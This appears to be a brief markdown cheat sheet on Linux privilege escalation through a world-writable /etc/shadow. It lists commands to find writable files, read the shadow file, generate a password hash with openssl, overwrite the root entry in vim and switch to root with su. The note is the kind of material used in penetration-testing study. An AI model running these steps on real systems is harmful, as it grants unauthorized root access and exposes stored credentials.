

# Linux privilege escalation - weak permissions (etc/shadow)

```text
find / -not -type l -perm -o+w
cat /etc/shadow
openssl passwd -1 -salt abc password
```

```text
vim /etc/shadow
```



```text
su
Password:
```

see here : <https://gtfobins.github.io/>